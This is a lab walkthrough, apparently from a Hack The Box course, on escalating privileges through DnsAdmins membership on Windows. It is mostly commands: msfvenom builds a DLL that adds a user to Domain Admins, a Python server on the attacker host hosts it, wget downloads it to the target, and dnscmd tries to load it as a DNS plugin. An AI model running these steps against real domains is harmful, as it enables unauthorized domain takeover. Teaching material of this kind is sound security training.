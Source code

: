 # Leveraging DnsAdmins Access

## Generating Malicious DLL

Podemos generar una DLL maliciosa para agregar un usuario al grupo `domain admins` utilizando `msfvenom`.

```r
msfvenom -p windows/x64/exec cmd='net group "domain admins" netadm /add /domain' -f dll -o adduser.dll

[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 313 bytes
Final size of dll file: 5120 bytes
Saved as: adduser.dll
```

## Starting Local HTTP Server

Luego, inicia un servidor HTTP con Python.

```r
python3 -m http.server 7777

Serving HTTP on 0.0.0.0 port 7777 (http://0.0.0.0:7777/) ...
10.129.43.9 - - [19/May/2021 19:22:46] "GET /adduser.dll HTTP/1.1" 200 -
```

## Downloading File to Target

Descarga el archivo en el objetivo.

```r
PS C:\htb>  wget "http://10.10.14.3:7777/adduser.dll" -outfile "adduser.dll"
```

Veamos primero qué sucede si usamos la utilidad `dnscmd` para cargar una DLL personalizada con un usuario no privilegiado.

### Loading DLL as Non-Privileged User

```r
C:\htb> dnscmd.exe /config /serverlevelplugindll C:\Users\netadm\Desktop\adduser.dll

DNS Server failed to reset registry property.
    Status = 5 (0x00000005)
Command failed: ERROR_ACCESS_DENIED
```

Como era de esperar, intentar ejecutar este comando como un usuario normal no es exitoso. Solo los miembros del grupo `DnsAdmins` tienen permiso para hacer esto.
